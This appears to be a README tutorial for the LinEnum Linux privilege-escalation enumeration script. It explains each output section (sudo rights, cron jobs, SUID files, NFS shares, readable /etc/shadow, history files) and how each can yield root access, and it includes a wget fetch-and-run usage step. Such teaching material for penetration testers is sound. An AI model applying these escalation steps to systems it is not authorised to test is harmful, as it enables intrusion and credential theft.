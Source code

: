 # LinEnum

Enumeration plays a key role while doing privilege escation on target system and performing the enumeration manually require time and effort.
To minimise the time and effort during the penetration test automated enumeration scripts can be used, which checks for very known misconfigurations of files and version details about programs & services running on system which could result in privilege escalation.

LinEnum is one of the available script from different options which can be used for enumeration.
When executed this script run on the context on currently logged in user and gives the output accordingly.
Below is the explanation of script which will be helpful in understanding the scripts output.

## Usage
Download the script using wget or curl.  
`$ wget http://192.168.43.197:8000/LinEnum.sh`  

Change the persmission to executable.  
`$ chmod +x LinEnum.sh`  

Execute the script.  
`$ ./LinEnum.sh`  

## System information:  
This output gives the information about operating system flavour, kernel version, architecture which is helpful while selecting kernel exploits.
Although LinEnum gives first information about system kernel but using kernel exploit should always be the last choise since it can crash the target system.  
![Image](/Img/1.png)

## LoggedIn Users:  
Output shows the current and previoulsy logged in user with time. Later files can be searched which are modified by that specific user around the timeframe which could be helpful in privilege escalation.  
![Image](/Img/2.png)

## passwd file:  
Content of passwd file is helpful for enumerating the list of users avaliable in the system.  
![Image](/Img/4.png)

## Sudo:  
Information regarding sudo shows that which programs can be run as root by current user. It can all program like this case or it can be limited no of command.  
![Image](/Img/6.png)

## Available shells:  
Information of different shell can help for switching to another shell in case if any restricted shell is allocated to user.  
![Image](/Img/7.png)

## Cron jobs:  
Many times systems users have schedules the script which executes as a root user after every specified interval of time. If user is having write permission to these scheduled scripts then it can be modified to execute script of users choice with elevated privileges leading to privilege escation.  
![Image](/Img/8.png)
![Image](/Img/8.2.png)

## Network information:  
Network and IP information gives details about the network interfaces attached to system and ip address of each interface. Systems having multiple interfaces can be connected to another isolated network which cannot be access directly but through pivoting and tunneling through current compromised system.  
![Image](/Img/9.png)

## Running process/services:  
Enumeraing running services can be helpful since if current user is having permission to particular service then abusing those binary can lead to a privilege escalation.  
![Image](/Img/10.png)

## Interesting files:  
List of utilies which can be helpfull for downloading files and compiling programs on target system.  
![Image](/Img/12.png)

## Permissions of sensitive files:  
Output shows the sensitive files to which current user is having read or write access. These misconfigured files can be helpful in escalating privileges, like /etc/shadow file is readable therefore password hash can be grabbed and cracked to obtain root account password.  
![Image](/Img/13.png)
![Image](/Img/5.png)

## SUID files:  
Pragrams with SUID bit set can be executed as root user without root password therefore looking for misconfigured SUID on files could give a root shell.  
![Image](/Img/14.png)

## NFS share:  
NFS shares can be mounted on the system and according to the rights provided changes can be made to system or configuration files for gaining root shell. examples can be writing your own sudoers files, setting SUID permission on binary.  
![Image](/Img/15.png)

## History files:  
History files can give information about the command executed by the user, which could reveal the root password.  
![Image](/Img/16.png)

## Backup files:  
Reading content of backup files could reveal the sensitve information like credentials for accounts and services.  
![Image](/Img/17.png)
